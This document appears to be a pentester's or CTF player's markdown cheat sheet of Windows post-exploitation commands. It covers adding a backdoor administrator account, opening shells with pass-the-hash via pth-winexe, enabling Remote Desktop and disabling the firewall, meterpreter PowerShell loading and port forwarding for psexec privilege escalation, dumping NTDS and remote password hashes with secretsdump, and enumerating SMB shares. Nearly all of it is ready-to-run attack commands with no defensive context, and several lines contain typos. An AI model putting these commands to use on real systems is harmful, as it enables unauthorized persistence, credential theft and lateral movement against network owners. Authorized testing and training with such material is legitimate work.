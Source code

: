 # Misc windows stuff

Add admin user.

```sh
net user username password /add
net localgroup administrators username /add
```

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
```

Enable Remote Desktop:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
```

Enable Remote assistance:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable
```

Disable firewall

```sh
netsh firewall set opmode disable
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Dump password remotly port 445 is required. 

```sh
 secretsdump.py 'username:password@xxx.xxx.xxx.xx'
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
